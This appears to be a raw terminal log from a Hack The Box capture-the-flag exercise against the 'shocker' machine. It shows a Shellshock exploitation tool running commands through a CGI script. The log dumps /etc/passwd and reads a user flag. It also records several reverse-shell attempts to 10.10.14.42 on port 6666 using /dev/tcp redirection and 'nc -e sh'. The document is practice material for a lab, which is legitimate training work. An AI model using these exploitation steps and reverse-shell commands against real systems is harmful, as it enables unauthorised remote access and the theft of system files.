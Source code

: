 ```bash
[+] The following URLs appear to be exploitable:
  [1] http://shocker.htb:80/cgi-bin/user.sh
[+] Would you like to exploit further?
[>] Enter an URL number or 0 to exit: ls
[+] The following URLs appear to be exploitable:
  [1] http://shocker.htb:80/cgi-bin/user.sh
[+] Would you like to exploit further?
[>] Enter an URL number or 0 to exit: 1
[+] Entering interactive mode for http://shocker.htb:80/cgi-bin/user.sh
[+] Enter commands (e.g. /bin/cat /etc/passwd) or 'quit'
  > whoami
  > No response
  > id
  > No response
  > /bin/id
  > No response
  > /bin/cat /etc/passwd
  < root:x:0:0:root:/root:/bin/bash
  < daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  < bin:x:2:2:bin:/bin:/usr/sbin/nologin
  < sys:x:3:3:sys:/dev:/usr/sbin/nologin
  < sync:x:4:65534:sync:/bin:/bin/sync
  < games:x:5:60:games:/usr/games:/usr/sbin/nologin
  < man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
  < lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
  < mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
  < news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
  < uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
  < proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
  < www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
  < backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
  < list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
  < irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
  < gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
  < nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
  < systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
  < systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
  < systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
  < systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
  < syslog:x:104:108::/home/syslog:/bin/false
  < _apt:x:105:65534::/nonexistent:/bin/false
  < lxd:x:106:65534::/var/lib/lxd/:/bin/false
  < messagebus:x:107:111::/var/run/dbus:/bin/false
  < uuidd:x:108:112::/run/uuidd:/bin/false
  < dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
  < sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
  < shelly:x:1000:1000:shelly,,,:/home/shelly:/bin/bash
  > sh -i >& /dev/tcp/10.10.14.42/6666 0>&1
  > No response
  > sh -i >& /dev/tcp/10.10.14.42/6666 0>&1
  > No response
  > python3 --version
  > No response
  > python3 --version >& /dev/tcp/10.10.14.42/6666 0>&1
  > No response
  > python3 --version >& /dev/tcp/10.10.14.42/6666 0>&1
  > No response
  > nc 10.10.14.42 6666 -e sh
  > No response
  > locate nc                                     
  > No response
  > /bin/cat /home/*/user.txt
  < c4bf.....3bf6
```